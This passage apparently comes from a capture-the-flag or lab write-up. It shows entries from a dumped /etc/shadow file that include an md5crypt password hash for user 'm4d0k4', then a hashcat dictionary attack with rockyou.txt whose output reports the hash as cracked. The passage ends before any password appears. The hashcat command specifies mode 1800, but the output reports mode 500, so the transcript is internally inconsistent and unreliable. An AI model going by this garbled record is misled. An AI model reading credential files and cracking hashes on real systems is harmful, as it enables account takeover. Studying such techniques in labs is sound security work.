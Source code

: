 ```
+games:!::0:::::
+cyrus:!::0:::::
+vpopmail:!::0:::::
+ntp:!::0:::::
+smmsp:!::0:::::
+guest:!::0:::::
+nobody:!::0:::::
+haproxy:!:19590:0:99999:7:::
+m4d0k4:$1$0TIQz3/L$IxXYB.WOJgUvbjFyaFP9R/:19591:0:99999:7:::
```

There it is! md5crypt ($1) hash of `m4d0k4`'s password.

### Cracking Password

Let's try cracking it using `hashcat` and the `rockyou.txt` (preinstalled wordlist on Kali Linux)

```
$ echo '$1$0TIQz3/L$IxXYB.WOJgUvbjFyaFP9R/' > hash.txt
$ hashcat -d 1 -m 1800 -a 0 -O -o result.txt hash.txt rockyou.txt
hashcat (v6.2.6) starting

CUDA API (CUDA 12.2)
====================
* Device #1: NVIDIA GeForce RTX 3050 Laptop GPU, 3314/4095 MB, 16MCU

OpenCL API (OpenCL 3.0 CUDA 12.2.135) - Platform #1 [NVIDIA Corporation]
========================================================================
* Device #2: NVIDIA GeForce RTX 3050 Laptop GPU, skipped

OpenCL API (OpenCL 2.1 AMD-APP (3570.0)) - Platform #2 [Advanced Micro Devices, Inc.]
=====================================================================================
* Device #3: AMD Radeon(TM) Graphics, skipped

Minimum password length supported by kernel: 0
Maximum password length supported by kernel: 15

Hashes: 1 digests; 1 unique digests, 1 unique salts
Bitmaps: 16 bits, 65536 entries, 0x0000ffff mask, 262144 bytes, 5/13 rotates
Rules: 1

Optimizers applied:
* Optimized-Kernel
* Zero-Byte
* Single-Hash
* Single-Salt

Watchdog: Temperature abort trigger set to 90c

Host memory required for this attack: 1036 MB

Dictionary cache hit:
* Filename..: rockyou.txt
* Passwords.: 14344384
* Bytes.....: 139921497
* Keyspace..: 14344384

Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 500 (md5crypt, MD5 (Unix), Cisco-IOS $1$ (MD5))
Hash.Target......: $1$0TIQz3/L$IxXYB.WOJgUvbjFyaFP9R/
Time.Started.....: Tue Aug 22 09:30:03 2023 (4 secs)
Time.Estimated...: Tue Aug 22 09:30:07 2023 (0 secs)
Kernel.Feature...: Optimized Kernel
```